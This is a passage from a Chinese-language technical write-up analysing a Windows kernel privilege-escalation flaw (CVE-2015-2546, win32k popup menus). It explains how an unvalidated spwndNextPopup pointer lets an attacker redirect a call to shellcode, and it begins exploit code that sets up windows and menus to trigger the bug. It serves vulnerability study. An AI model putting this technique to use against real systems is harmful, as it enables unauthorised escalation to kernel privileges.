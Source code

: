 ```
.text:BF939541                 push    ebx
.text:BF939542                 call    _xxxMNHideNextHierarchy@4 
.text:BF939547                 jmp     short loc_BF939583

```

在 xxxMNHideNextHierarchy 函数中，会将 pTagPopupMenu 偏移 0x0C 的 spwndNextPopup 作为第一个参数调用 xxxSendMessage 函数。  

![](https://bbs.pediy.com/upload/tmp/835440_BZZ7HQ7W27MMSDJ.jpg)

虽然这里第八第九行代码验证了 spwndNextPopup 是否为 0，但是，函数没有对 pTagPopupmenu 进行验证。因此，只要修改掉 spwndNextPopup，让它不为 0。

最终将导致代码 xxSendMessageTimeout 中的 call dword ptr [esi + 0x60] 就变成 call dword ptr [spwndNextPopup + 0x60]，此时只要在相应的位置放入 ShellCode 函数地址，就可以实现提权。

三. 漏洞利用  

==========

和 CVE-2014-4113 相同的是，该漏洞也需要通过 TrackPopupMenu 函数来触发，所以也需要以下的代码来创建相应的窗口

```
HWND hWnd = NULL;
WNDCLASS wc = { 0 };
HMENU hMenu1 = NULL, hMenu2 = NULL;
MENUITEMINFO Item1 = { 0 }, Item2 = { 0 };
 
memset(&wc, 0, sizeof(wc));
 
wc.hInstance = GetModuleHandle(NULL);
wc.lpfnWndProc = WndProc_2015_2546;
wc.lpszClassName = "1900";
 
if (!RegisterClassA(&wc))
{
    ShowError("RegisterClassA", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
hWnd = CreateWindowA(wc.lpszClassName,
               "",
               WS_OVERLAPPEDWINDOW | WS_VISIBLE,
               0,
               0,
               640,
               480,
               NULL,
               NULL,
               wc.hInstance,
               NULL);
if (!hWnd)
{
    ShowError("CreateWindowEx", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
hMenu1 = CreatePopupMenu();
if (!hMenu1)
{
    ShowError("CreatePopupMenu", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
```